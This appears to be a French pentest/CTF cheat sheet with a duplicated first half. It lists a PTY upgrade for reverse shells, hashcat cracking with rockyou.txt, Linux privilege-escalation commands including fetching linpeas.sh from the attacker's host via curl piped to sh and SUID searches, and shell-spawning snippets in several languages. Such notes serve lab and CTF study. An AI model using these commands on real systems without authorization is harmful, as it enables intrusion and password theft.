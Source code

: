 # Dans un reverse shell

```py
python3 -c "import pty;pty.spawn('/bin/bash')"
```

# Détecter un hash 

```bash
hashcat hashPWD.txt rockyou.txt

The following 11 hash-modes match the structure of your input hash:

      # | Name                                                | Category
  ======+=====================================================+======================================
    900 | MD4                                                 | Raw Hash
      0 | MD5                                                 | Raw Hash
     70 | md5(utf16le($pass))                                 | Raw Hash
   2600 | md5(md5($pass))                                     | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                    | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))             | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                         | Raw Hash salted and/or iterated
   1000 | NTLM                                                | Operating System
   9900 | Radmin2                                             | Operating System
   8600 | Lotus Notes/Domino 5                                | Enterprise Application Software (EAS)


```

Puis sélectionner le # de l'algo de hashage
Exemple avec RAW MD5
```bash
hashcat -m 0 hashPWD.txt rockyou.txt
```


# Privilege Escalation

## Linux

`sudo -l`

`python -m http.server 80 -> curl mon_ip/linpeas.sh | sh`

`find / -type f -perm -04000 -ls 2>/dev/null`
`find / -perm -4000 2>/dev/null`

# Dans un reverse shell

```py
python3 -c "import pty;pty.spawn('/bin/bash')"
```

# Détecter un hash 

```bash
hashcat hashPWD.txt rockyou.txt

The following 11 hash-modes match the structure of your input hash:

      # | Name                                                | Category
  ======+=====================================================+======================================
    900 | MD4                                                 | Raw Hash
      0 | MD5                                                 | Raw Hash
     70 | md5(utf16le($pass))                                 | Raw Hash
   2600 | md5(md5($pass))                                     | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                    | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))             | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                         | Raw Hash salted and/or iterated
   1000 | NTLM                                                | Operating System
   9900 | Radmin2                                             | Operating System
   8600 | Lotus Notes/Domino 5                                | Enterprise Application Software (EAS)


```

Puis sélectionner le # de l'algo de hashage
Exemple avec RAW MD5
```bash
hashcat -m 0 hashPWD.txt rockyou.txt
```


# Privilege Escalation

## Linux

`sudo -l`

`python -m http.server 80 -> curl mon_ip/linpeas.sh | sh`

`find / -type f -perm -04000 -ls 2>/dev/null`
`find / -perm -4000 2>/dev/null`


```py
import subprocess
subprocess.call("/bin/sh")
```
```js
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```
```c
#include <stdlib.h>
#include <unistd.h>

int main() {
    execl("/bin/sh", "/bin/sh", NULL);
    return 0;
}
```
```cpp
#include <cstdlib>
#include <unistd.h>

int main() {
    execl("/bin/sh", "/bin/sh", NULL);
    return 0;
}
```
```rust
use std::process::Command;

fn main() {
    Command::new("/bin/sh")
        .status()
        .expect("Failed to execute command");
}
```
```go
package main

import (
	"os"
	"os/exec"
)

func main() {
	cmd := exec.Command("/bin/sh")
	cmd.Stdin = os.Stdin
	cmd.Stdout = os.Stdout
	cmd.Stderr = os.Stderr
	cmd.Run()
}
```
```java
import java.io.IOException;

public class Main {
    public static void main(String[] args) {
        try {
            Process process = new ProcessBuilder("/bin/sh").inheritIO().start();
            process.waitFor();
        } catch (IOException | InterruptedException e) {
            e.printStackTrace();
        }
    }
}
```

